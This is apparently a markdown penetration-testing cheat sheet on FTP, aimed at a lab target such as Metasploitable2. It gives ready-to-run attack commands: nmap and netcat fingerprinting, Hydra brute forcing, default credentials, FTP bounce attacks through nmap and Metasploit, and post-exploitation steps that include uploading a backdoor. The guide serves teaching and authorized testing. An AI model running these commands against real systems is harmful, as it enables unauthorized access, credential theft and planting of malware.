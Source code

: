 
#  File Transfer Protocol (FTP) - Penetration Testing
---

##  FTP Basics
- Remote file system access
- Operates on **TCP ports 21 (control)** and **20 (data)**
## How does FTP work?
 - A typical FTP session operates using two channels:
     - a command (sometimes called the control) channel > used for transmitting commands as well as replies to those commands.
     - a data channel > used for transferring data. 
 -  FTP Modes of Operation
    - Active :  the client opens a port and listens. The server is required to actively connect to it
    - passive : he server opens a port and listens (passively) and the client connects to it.

 - More info **https://www.ietf.org/rfc/rfc959.txt**
---

##  FTP Vulnerabilities
1. Brute force login attacks
2. Anonymous login and unauthenticated access
3. Authentication bypass or exploitation of vulnerable software

---

##  Fingerprinting FTP Services

###  Using Nmap:
```bash
nmap -Pn -sS -A -p21 192.168.10.x
```
![Nmap Scan](images/t1.png)

###  Banner Grabbing using Netcat:
```bash
nc -nv 192.168.10.x 21
```
![Netcat Output](images/t2.png)

###  Useful Nmap FTP Scripts:
- `ftp-anon`: Test for anonymous login access
- `ftp-brute`: Brute force FTP username/password
- `ftp-syst`: Get FTP version and system type

```bash
nmap -p 21 -T4 --script ftp-anon,ftp-syst,ftp-brute 192.168.10.x
```

 Example Output:
```plaintext
Nmap scan report for 192.168.10.129
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     > user:user - Valid credentials <
|_  Statistics: Performed 1833 guesses in 302 seconds
| ftp-syst: 
|   vsFTPd 2.3.4 - secure, fast, stable
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

---

##  Brute Forcing with Hydra
```bash
hydra -L users.txt -P pass.txt ftp://<target-ip>
```

---

##  Version Detection & Exploit Search
After detecting the FTP version, use `searchsploit` to find related vulnerabilities (CVEs):

```bash
searchsploit <ftp-version>
```
![Searchsploit](images/t3.png)

---

##  Default FTP Credentials (Try First)
```bash
ftp:ftp
anonymous:anonymous
user:user
```

 Example with Metasploitable2:
```bash
ftp 192.168.10.x
# Login: ftp
# Password: ftp
```
![FTP Access](images/t4.png)

---

#  FTP Attacks

##  FTP Bounce Attack

###  Concept:
1. FTP Active mode uses `PORT` to send target IP and port
2. Attacker manipulates FTP server to connect to other internal devices
3. Allows internal **port scanning**, **relay attacks**, or **data exfiltration**

###  Tools:

#### Nmap:
```bash
nmap -b <ftp_user>:<ftp_pass>@<FTP_server> <target_network>
```

####  Metasploit:
```bash
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS <FTP_server>
set RPORT <FTP_port>
run
```

---

##  Post-Exploitation FTP Commands

| Command | Description | Example |
|---------|-------------|---------|
| lcd     | Change local directory     | `lcd /path/to/dir`     |
| cd      | Change server directory    | `cd /target/dir`       |
| ls      | List server files          | `ls`                   |
| get     | Download file              | `get file.txt`         |
| mget    | Download multiple files    | `mget *.txt`           |
| put     | Upload file                | `put backdoor.exe`     |
| mput    | Upload multiple files      | `mput *.exe`           |
| bin     | Binary mode                | `bin`                  |
| ascii   | ASCII transfer mode        | `ascii`                |
| quit    | Exit FTP client            | `quit`                 |

---

